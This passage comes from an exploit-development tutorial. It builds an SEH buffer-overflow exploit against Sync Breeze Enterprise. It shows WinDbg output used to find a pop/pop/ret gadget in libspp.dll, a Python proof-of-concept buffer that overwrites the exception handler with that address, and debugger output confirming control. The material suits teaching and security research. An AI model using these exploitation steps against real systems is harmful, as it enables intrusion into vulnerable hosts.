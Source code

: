 ```bash
0:010> $><C:\Installers\seh_overflow\find_ppr.wds
0x1015a2f0 #<= The one i took.
0x100087dd
0x10008808
0x1000881a
0x10008829
...
```

As expected, the script return a list of all memory addresses from the module. Select and address without bad characters in it, and verify that it point to a P/P/R instruction sequence.

```bash
0:010> u 1015a2f0 L3
*** WARNING: Unable to verify checksum for C:\Program Files\Sync Breeze Enterprise\bin\libspp.dll
libspp!pcre_exec+0x16460:
1015a2f0 58              pop     eax
1015a2f1 5b              pop     ebx
1015a2f2 c3              ret
```

The address points to valid sequence of instructions, and doesn't contain any bad chars.

### 7. Gaining control of Instruction Pointer.<a name="ESP"></a>

Now we can update the PoC and try to overwrite the instruction pointer with the P/P/R instruction.

```python
...
size = 1000

aBuffer = b"A" * 128
bBuffer = pack("<L", (0x1015a2f0)) # (SEH) 0x1015a2f0 - pop eax; pop ebx; ret
cBuffer = b"C" * 868
inputBuffer = aBuffer + bBuffer + cBuffer
...
```

Run the PoC and inspect the Exception Handler chain.

```bash
0:009> !exchain
0081fe0c: libpal!md5_starts+149fb (005cdf5b)
0081ff44: libspp!pcre_exec+16460 (1015a2f0) #<= P/P/R address
Invalid exception stack at 41414141

0:009> u 1015a2f0 L3
libspp!pcre_exec+0x16460:
1015a2f0 58              pop     eax
1015a2f1 5b              pop     ebx
1015a2f2 c3              ret

```
